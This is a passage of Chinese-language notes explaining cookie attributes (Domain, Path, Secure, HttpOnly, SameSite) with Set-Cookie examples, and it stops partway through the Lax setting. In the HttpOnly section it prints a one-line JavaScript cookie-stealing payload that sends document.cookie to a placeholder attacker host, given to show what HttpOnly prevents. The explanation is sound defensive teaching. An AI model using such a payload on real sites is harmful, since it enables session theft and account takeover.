    如果没有指定该属性，浏览器会默认将其设为当前域名，这时子域名将不会附带这个 cookie 。
   
   如果指定了 domain 属性，那么子域名也会附带这个 cookie 。
   
   如果服务器指定的域名不属于服务器当前域名或者其父域名，浏览器会拒绝这个 cookie 。

**Path**

1. Path属性指定浏览器发出HTTP请求时，哪些路径要附带这个cookie。

   只要浏览器发现，Path属性值是HTTP请求路径的开头一部分，就会在头信息里面带上这个 cookie 。

**Secure**

1. Secure属性指定浏览器只有在加密协议HTTPS下，才能将这个cookie发送到服务器。

   该属性只是一个开关，不需要指定值

**HttpOnly**

1. HttpOnly属性指定该cookie无法通过JavaScript脚本拿到，主要是document.cookie、XMLHttpRequest对象和Request API。这样就防止了该cookie被脚本读到，只有浏览器发出HTTP请求时，才会带上该cookie。

```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的cookie发往第三方服务器。如果设置了一个cookie的HttpOnly属性，上面代码就不会读到该cookie。

**SameSite**

1. SameSite 的作用

   Cookie 的 SameSite 属性就是用来限制第三方 Cookie，从而减少安全风险的。

   比如：CSRF攻击、用户追踪...详见 `cookie安全性`

   >Cookie 的 domain (your-bank.com) 与当前访问的网站 (malicious.com) 不一样，这种 cookie 就称为第三方 cookie。

2. SameSite 的值

   Cookie 的SameSite属性可以设置三个值：Strict、Lax、None

   - **Strict**

     Strict 是最严格的防护，将阻止浏览器在所有跨站点请求中将 cookie 发送到目标站点。因此这种设置可以阻止所有 CSRF 攻击。

     ```
     Set-Cookie: CookieName=CookieValue; SameSite=Strict;
     ```

     这个规则过于严格，可能造成非常不好的用户体验。比如，当前网页有一个 GitHub 链接，用户点击跳转就不会带有 GitHub 的 cookie，跳转过去总是未登陆状态。
     不过，具有交易业务的网站很可能不希望从外站链接到任何交易页面，因此这种场景最适合使用 strict 标志。

   - **Lax**

     Lax规则稍稍放宽，大多数情况也是不发送第三方 cookie，但是导航到目标网址的Get请求除外。另外，使用JavaScript脚本发起的请求也无法携带第三方 cookie。

     ```
     Set-Cookie: CookieName=CookieValue; SameSite=Lax;
     ```

     导航到目标网址的 GET 请求，只包括三种情况：链接，预加载请求、以 GET 方式提交的表单
